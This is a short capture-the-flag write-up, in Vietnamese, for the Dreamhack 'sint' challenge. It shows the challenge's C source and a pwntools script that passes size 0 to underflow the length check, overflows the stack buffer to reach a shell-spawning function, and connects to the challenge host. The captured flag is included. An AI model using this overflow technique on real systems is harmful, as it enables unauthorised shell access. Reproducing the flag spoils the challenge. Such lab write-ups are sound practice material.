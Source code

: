 # sint

source C:

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[256];
    int size;

    initialize();

    signal(SIGSEGV, get_shell);

    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
    }

    printf("Data: ");
    read(0, buf, size - 1);

    return 0;
}
```

bài này dễ quá mình chả biết viết sao nên mình gửi script thôi:

## script:

```python
from pwn import *

# p = process('./sint')

p = remote('host3.dreamhack.games', 16218)
exe = ELF('./sint')

payload = b'0'

p.sendlineafter(b'Size: ', payload)

payload = b'a'*260
payload += p64(exe.sym['get_shell'] + 1)

p.sendafter(b'Data: ', payload)

p.interactive()

# DH{d66e84c453b960cfe37780e8ed9d70ab}

```

## Flag:

**DH{d66e84c453b960cfe37780e8ed9d70ab}**

